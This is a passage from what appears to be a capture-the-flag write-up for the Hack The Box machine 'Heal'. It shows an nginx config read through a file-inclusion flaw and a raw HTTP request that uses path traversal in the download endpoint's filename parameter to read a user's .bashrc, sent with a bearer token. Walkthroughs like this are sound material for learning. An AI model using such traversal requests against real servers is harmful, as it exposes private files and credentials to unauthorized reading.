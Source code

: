 ```c

limit_req_zone $binary_remote_addr zone=mylimit:10m rate=10r/s;

server {
    listen 80;
    server_name api.heal.htb;

    # Proxy requests to the Flask server
    location / {
        limit_req zone=mylimit burst=20;
        proxy_pass http://localhost:3001;
        proxy_http_version 1.1;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    }
}

```

![](images/2024-12-14_20-46_lfi_apihealhtb_nginx_conf.png)

Next we started reading the content of the `.bashrc` of `ralph` and `ron` to see if there were any `exports` which could give us a hint where to look for the `web application`.

```
GET /download?filename=../../../../../home/ralph/.bashrc HTTP/1.1
Host: api.heal.htb
Accept: */*
Access-Control-Request-Method: GET
Access-Control-Request-Headers: authorization
Origin: http://heal.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Sec-Fetch-Mode: cors
Referer: http://heal.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjo1fQ.7HQbv7vTQa-UIbcu3TPdEgxs3zZG0tYpT-yOC5uxMbM


```
